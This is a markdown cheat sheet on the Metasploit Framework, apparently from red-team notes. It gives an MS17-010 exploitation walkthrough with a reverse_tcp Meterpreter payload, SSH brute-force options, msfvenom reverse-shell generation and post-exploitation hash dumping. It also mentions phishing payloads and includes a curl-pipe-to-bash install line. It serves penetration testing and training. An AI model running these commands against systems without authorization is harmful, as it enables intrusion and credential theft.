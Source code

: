 # Metasploit Framework 🔥💻🕵️‍♂️
#RED #Tool 

Metasploit Framework is an open-source penetration testing platform that enables security professionals to test system vulnerabilities, execute exploit code, and develop their own exploit tools.

**LINK TO TOOL DOCUMENTATION [HERE](https://www.metasploit.com/)**

The Metasploit Framework is one of the most widely used penetration testing tools in the cybersecurity industry. It provides a robust platform for identifying, exploiting, and validating vulnerabilities in various systems.

---
![Metasploit Framework](https://www.offsec.com/wp-content/uploads/2023/08/metasploit-logo.png)

---

### 🛠 Features:
- **Over 1,500 exploits** 🏹
- **Payload generation and encoding** 🎭
- **Post-exploitation modules** 🔍
- **Meterpreter - Advanced payload** 🕶️
- **Automated vulnerability scanning** 🤖
- **Integration with various security tools** 🔗
- **Supports multiple platforms** 🏗️

---

### 🚀 Installing Metasploit Framework

#### 🔹 **LINUX** 🐧
```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfupdate | bash
```

#### 🔹 **Windows** 🏁
Download from: [Metasploit Framework](https://www.metasploit.com/download)

---

## 🧰 Common Commands

### Start Metasploit
```bash
msfconsole                
```

### Search for exploits related to Apache
```bash
search exploit apache     
```

### Use an exploit module
```bash
use exploit/windows/smb/ms17_010  
```

### Set target IP
```bash
set RHOST 192.168.1.100   
```

### Select payload
```bash
set PAYLOAD windows/meterpreter/reverse_tcp  
```

### Execute the exploit
```bash
exploit                   
```

### Interact with a compromised system
```bash
sessions -i 1             
```

### Additional Useful Commands:
```bash
show exploits             # Display available exploits
show payloads             # Display available payloads
show auxiliary            # Display auxiliary modules
show post                 # Display post-exploitation modules
use auxiliary/scanner/ssh/ssh_login  # Use SSH brute-force login module
set USERNAME admin        # Set a username for brute-force attack
set PASSWORD password123  # Set a password for brute-force attack
run                       # Execute the selected module
sessions -l               # List active sessions
sessions -k <session_id>  # Kill a specific session
background                # Move a session to background
exit                      # Exit Metasploit Framework
```

---

## ⚙️ Advanced Usage

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > shell.exe  # Generate a payload
use auxiliary/scanner/portscan/tcp   # Perform a TCP port scan
use post/windows/gather/hashdump     # Dump password hashes after exploitation
```

---

## 📋 Handy Options

| Option         | Description                                    |
|---------------|--------------------------------|
| `-x`          | Run exploit and auto-interact with session |
| `-j`          | Run as background job                    |
| `-z`          | Skip interactive prompt after exploit    |
| `show options`| Display required settings for a module  |
| `setg`        | Set a global variable for all modules   |
| `resource`    | Run multiple Metasploit commands from a script |
| `db_nmap`     | Use Nmap from within Metasploit for scanning |
| `route`       | Manage pivoting and route traffic through compromised hosts |
| `exploit -z`  | Run exploit without interaction        |
| `jobs -K`     | Kill all running background jobs       |

---

## 🌐 Example Scenarios

- **Penetration Test**: Gain access to a system using an exploit and test security controls.
- **Post-Exploitation**: Extract credentials, capture keystrokes, or pivot within the network.
- **Red Teaming**: Simulate a real-world attack scenario and evaluate security defenses.
- **Social Engineering**: Craft malicious payloads for phishing campaigns.

---

## 🚀 Pro Tips

- Always update Metasploit before running tests: `msfupdate` 🔄
- Use `searchsploit` for offline exploit database searching 📖
- Combine Metasploit with Nmap for reconnaissance 🔍
- Use `setg` to set global options across multiple modules 🌍
- Leverage `resource` scripts to automate tasks ⚡

---

## 📚 References
- [Metasploit Documentation](https://docs.metasploit.com/)
- [Offensive Security Metasploit Course](https://www.offsec.com/metasploit-unleashed/)

---

![VIDEO](https://www.youtube.com/watch?v=3Kq1MIfTWCE)
